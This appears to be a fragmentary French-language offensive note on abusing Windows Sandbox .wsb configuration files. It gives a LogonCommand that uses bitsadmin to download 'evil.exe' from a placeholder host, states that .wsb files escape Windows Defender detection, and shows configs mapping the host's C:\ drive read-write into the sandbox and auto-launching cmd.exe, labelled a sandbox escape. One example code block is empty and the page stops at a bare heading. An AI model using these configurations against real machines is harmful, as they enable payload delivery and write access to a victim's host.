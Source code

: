 
I  - Fonctionnement du Windows Sandbox


Windows Sandbox (WSB) va permettre de créer un environnement de bureau isolé, 
Les fichiers de configuration de WSB sont au format XML et utilisent l’extension .wsb.


![image](https://user-images.githubusercontent.com/75935486/152426360-480974ca-877d-4786-a715-237211be7558.png)



voici l'exemple d'un fichier de configuration: 

```xml

```











### Exploiter les configurations WSB:


Une des première méthodes consiste à modifier le champs `<Command>` pour executer notre commande malicieuse et accéder au fichiers systèmes de l'hote, en plus de ça les fichiers WSB
ne se font pas détecter par Windows Defender.

```xml
<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
```


```xml
<Configuration>
   <MappedFolders>
 	<MappedFolder>
	  <HostFolder>C:\</HostFolder>
 	  <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 	  <ReadOnly>false</ReadOnly>
 	</MappedFolder>
   </MappedFolders>
   <LogonCommand>
 	<Command>bitsadmin /transfer myjob /download /priority high http://legit/evil.exe"%APPDATA%\file">nul&</Command>
   </LogonCommand>
</Configuration>
```














• Inheriting Write Access permission to Host Machine (Sand-Box-Escape)

# Mapping C:\ root to Sandbox Environment with write access (RW.wsb)
<Configuration>
 <MappedFolders>
 <MappedFolder>
 <HostFolder>C:\</HostFolder>
 <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 <ReadOnly>false</ReadOnly>
 </MappedFolder>
 </MappedFolders>
</Configuration>
NOTE : File created in the sand-box environment will directly reflect in the C:\ folder of Host Machine



 
• Execution upon Sand-Box Environment Creation 

<Configuration>
 <MappedFolders>
 <MappedFolder>
 <HostFolder>C:\</HostFolder>
 <SandboxFolder>C:\Users\WDAGUtilityAccount\UserFiles</SandboxFolder>
 <ReadOnly>false</ReadOnly>
 </MappedFolder>
 </MappedFolders>
 <LogonCommand>
 <Command>C:\Windows\system32\cmd.exe</Command>
 </LogonCommand>
</Configuration>

NOTE : File created in the sand-box environment will directly reflect in the C:\ folder of Host Machine 




### étude approfondi de Windows Sandbox:

